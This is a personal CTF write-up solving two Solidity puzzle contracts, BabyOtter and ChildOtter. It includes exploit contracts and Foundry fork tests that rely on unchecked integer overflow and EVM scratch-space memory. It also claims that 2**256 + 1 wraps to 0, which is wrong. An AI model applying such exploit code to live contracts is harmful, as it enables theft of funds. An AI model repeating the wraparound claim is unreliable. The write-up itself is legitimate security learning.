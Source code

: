 ```yaml
---
layout: post
title:  "0xHackedLabs x OtterSec CTF 2023"
command: cat blockchainctf
---
```


Hello peers, I participated in a blockchain ctf conducted by 0xHacked Labs and OtterSec. These are the challenge writeups which i solved. We dont submit any flag to solve the challenge, we need to generate the ZK Proof of our exploit then that ZK Proof should be submitted to solve the challenge.


# BabyOtter

```
As easy as 1, 2, 1337..

rpc: http://18.207.142.64:38545
contract: 0x4e309C767Acc9f9366d75C186454ed205d5Eeee3
block_number: 3

Attached Files : [ https://github.com/0xHackedLabs/ctf/tree/main/src/BabyOtter/BabyOtter.sol ]
```


`BabyOtter.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract BabyOtter {
    bool public solved = false;

    function solve(uint x) public {
        unchecked {
            assert(x * 0x1337 == 1);
        }
        solved = true;
    }
}
```

The observation is that the contract uses `unchecked` block. unchecked block wont check for overflow of integer arithmetic. That means a `uint256` variable can store values less than `2**256-1`. If we tried to store values more than this value the value will be wrapped to mod `2**256`. 

Simply, `uint256 x = 2**256 + 1` will become `0`. `uint256 x = 2**256 + 2` will be `1`.

So, we need to find value of `x` such that which can satisfy the equation `x * 0x1337 = 1`. We can think of this as a modular multiplicative inverse. 

`x = pow(0x1337, -1, 2**256)`

In solidity we can find this as `x  =  0x1337 ** (2**254 -1)`. So, simply calling solve function with this value with the x value to solve the chalenge.

`Exploit.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IBabyOtter {
    function solve(uint x) external;
}
contract Exploit {
    function exploit() public {
        // write code here
        address target = 0x4e309C767Acc9f9366d75C186454ed205d5Eeee3;
        uint leet = 0x1337;
        uint x;
        unchecked{x  =  leet ** (2**254 -1);}
        IBabyOtter(target).solve(x);
    }
}
```

We can test this challenge with foundry test script.

`Exploit.t.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Exploit as BoE} from "../src/BabyOtter/Exploit.sol";
interface IChallenge {
    function solved() external returns(bool);
}

contract ExploitTest is Test {

    function setUp() public {
        // fork the ctf chain
        vm.createSelectFork("http://18.207.142.64:38545", 3);
    }

    function test_babyotter() public {
        address target = 0x4e309C767Acc9f9366d75C186454ed205d5Eeee3;

        BoE exp = new BoE();
        exp.exploit();
        assertTrue(IChallenge(target).solved());
    }
}
```

`forge test --match-test test_babyotter -vv` will confirm the challenge is solved. Submitting the exploit ZK Proof will credit some points in CTF.


# ChildOtter

```
rpc: http://18.207.142.64:38545
contract: 0x63461D5b5b83bD9BA102fF21d8533b3aad172116
block_number: 3

Attached Files : [ https://github.com/0xHackedLabs/ctf/tree/main/src/ChildOtter/ChildOtter.sol ]
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ChildOtter {
    mapping(uint => mapping(uint => uint)) val;
    bool public solved = false;

    function solve(uint x) public { 
      uint target;

      val[0][0] = x;
      assembly {
        target := mload(32)
      }
      assert(target == x);
      solved = true;
    }
}
```

This is the challenge for which I learned a lot of new things. To solve this I revised entire EVM internals from many sources(see references).

The challenge goal is to call the solve function with the value which is store at the EVM memory 32 bytes to 64 bytes. That is what actually `mload(32)` is doing.

Solidity reserves four 32-byte slots, with specific byte ranges (inclusive of endpoints) being used as follows:

`0x00 - 0x3f` (64 bytes): scratch space for hashing methods

`0x40 - 0x5f` (32 bytes): currently allocated memory size (aka. free memory pointer)

`0x60 - 0x7f` (32 bytes): zero slot

Scratch space can be used between statements (i.e. within inline assembly). The zero slot is used as initial value for dynamic memory arrays and should never be written to (the free memory pointer points to 0x80 initially).

The challenge contract defines a nested mapping and stored a value in the mapping at `key [0][0]`.

The variable `val` is assigned to storage slot 0 (simply because it is the first one). But the mapped elements are elsewhere.

To compute the storage slot or location of the mapped elements, the following is used :

`slot = keccak256([key, mappingSlot]) // concatenate key and mapping slot`

So, when storing values in a mapping EVM will compute keccak256 hash of the key and mapping slot. EVM will use `scratch space` to perform hashing. So, that means `0x00-0x3f`(0 - 64 bytes) will store the `keccak256([0,0])`.

The actual `value[0][0] = x` will be stored at `storage` slot `uint(keccak256([0,keccak256([0,0]))))`. In memory from `32 bytes to 64 bytes` are used to store the `keccak256([0,0])`. 

Lets confirm this with remix debugger.

<img src ="/assets/img/post_img/hackedlabsctf_1.png" alt="childOtter remix" class="autoimg">

Calling solve function with this value will solve the challenge.

`Exploit.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IChildOtter {
    function solve(uint x) external;
}
contract Exploit {
    function exploit() public {
        // write code here
        address target = 0x63461D5b5b83bD9BA102fF21d8533b3aad172116;
        uint x = uint(keccak256(abi.encode(0,0))); // slot 0, key 0
        IChildOtter(target).solve(x);
    }
}
```

We can test this challenge with foundry test script.

`Exploit.t.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Exploit as CoE} from "../src/ChildOtter/Exploit.sol";
interface IChallenge {
    function solved() external returns(bool);
}

contract ExploitTest is Test {

    function setUp() public {
        // fork the ctf chain
        vm.createSelectFork("http://18.207.142.64:38545", 3);
    }

    function test_childotter() public {
        address target = 0x63461D5b5b83bD9BA102fF21d8533b3aad172116;
        CoE exp = new CoE();
        exp.exploit();
        assertTrue(IChallenge(target).solved());
    }
}
```

`forge test --match-test test_childotter -vv` will confirm the challenge is solved. Submitting the exploit ZK Proof will credit some points in CTF.

***

### References

1. <a href="https://ethereum.stackexchange.com/questions/114186/how-does-ethereum-fit-a-mapping-into-storage" target=_blank>StackOverflow</a>
2. <a href="https://docs.soliditylang.org/en/latest/internals/layout_in_memory.html" target=_blank>Solidity lang docs</a>
3. <a href="https://youtu.be/i_LwhlFNSkI?feature=shared" target=_blank>How mappings stored in EVM - MappingsJesper Kristensen YT</a>
4. <a href="https://youtu.be/Ru3inmu1FuQ?feature=shared" target=_blank>EVM Explained - Owen Thurm YT</a>
5. <a href="https://youtu.be/kCswGz9naZg?feature=shared" target=_blank>EVM Guide - Jordan McKinney YT</a>



